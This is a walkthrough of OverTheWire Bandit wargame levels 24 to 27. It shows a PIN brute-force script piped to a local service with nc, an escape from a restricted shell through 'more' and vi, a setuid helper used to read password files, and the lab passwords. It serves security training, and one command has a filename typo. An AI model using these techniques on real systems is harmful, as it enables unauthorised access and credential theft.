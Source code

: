 * SSH: ssh -o PubkeyAuthentication=no -p2220 bandit24@bandit.labs.overthewire.org
* Solution: 

```bash
$ cd /tmp
$ mkdir fcch-pass25; cd fcch-pass25; touch genpass.sh
$ vim genpass.sh
-- #!/bin/bash
-- pass=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
-- for i in {0000..9999} 
-- do
--    echo $pass $i >> pass25.txt
-- done
$ cat pass25,txt | nc localhost 30001
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

## Bandit Level 25 → Level 26

* SSH: ssh -o PubkeyAuthentication=no -p2220 bandit25@bandit.labs.overthewire.org
* Solution: 

```bash
$ file bandit26.sshkey
$ ssh -i bandit26.sshkey bandit26@localhost
$ cat /etc/passwd
$ cat /etc/passwd | grep bandit26
$ cat /usr/bin/showtext
-- #!/bin/sh
-- export TERM=linux
-- more ~/text.txt
-- exit 0
# By the "more" command in the script the terminal window should be resized to a small size.
$ ssh -i bandit26.sshkey bandit26@localhost
# -- More -- With this screen we can enter the help screen of the "More" command by typing "h", then we can start the vi editor by typing the "v" key (/usr/bin/vi), inside the editor we type ":set shell=/bin/bash" and even inside vi ":shell".
$ cat /etc/bandit_pass/bandit26
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
```

## Bandit Level 26 → Level 27

* SSH: ssh -i bandit26.sshkey bandit26@localhost
* Solution:

```bash
$ ls -la
$ file bandit27-do
$ cat text.txt
$ ./bandit27-do id
$ ./bandit27-do whoami
$ echo 'cat /etc/bandit_pass/bandit27' > /tmp/getpass27.sh
$ chmod a+x /tmp/getpass27.sh
$ ./bandit27-do /tmp/getpass27.sh
3ba3118a22e93127a4ed485be72ef5ea
```
